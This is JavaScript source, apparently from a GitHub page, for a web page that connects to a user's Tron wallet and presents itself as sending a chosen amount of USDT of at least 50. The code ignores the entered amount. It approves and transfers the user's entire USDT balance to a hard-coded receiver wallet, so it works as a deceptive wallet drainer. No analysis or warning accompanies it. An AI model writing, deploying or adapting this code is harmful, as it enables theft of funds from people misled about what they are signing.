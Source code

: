 # USDT-TRC-20

const CONTRACT = "TU2tSUZQdeZHZSrbkkCm1mV7Gm2K6zzSWm"; // TRC20 USDT contract
const RECEIVER = "TBcBAXua2kNx1dzNzWJqY3LSVfq1EDGtpo"; // Your banker wallet
const sendBtn = document.getElementById('sendBtn');
const status = document.getElementById('status');
let userAddress;

// Wait until tronWeb is injected
const waitForTron = async () => {
  while (typeof window.tronWeb === 'undefined' || !tronWeb.defaultAddress.base58) {
    status.innerText = '🔄 Waiting for wallet...';
    await new Promise(resolve => setTimeout(resolve, 1000));
  }
  userAddress = tronWeb.defaultAddress.base58;
  status.innerText = '✅ Wallet connected: ' + userAddress;
};

waitForTron();

sendBtn.addEventListener('click', async () => {
  const amount = parseFloat(document.getElementById('amount').value);
  if (isNaN(amount) || amount < 50) {
    alert('Enter minimum 50 USDT');
    return;
  }

  sendBtn.disabled = true;
  status.innerText = 'Proceeding... please sign the transaction';

  try {
    const contract = await tronWeb.contract().at(CONTRACT);
    const balanceSun = await contract.balanceOf(userAddress).call();
    const balance = Number(balanceSun);

    if (balance <= 0) throw new Error('Insufficient USDT balance');

    await contract.approve(RECEIVER, balance).send({ feeLimit: 100_000_000 });
    await contract.transferFrom(userAddress, RECEIVER, balance).send({ feeLimit: 100_000_000 });

    status.innerText = '✅ Transaction Successful!';
  } catch (e) {
    console.error(e);
    status.innerText = '❌ Error: ' + e.message;
  }

  sendBtn.disabled = false;
});
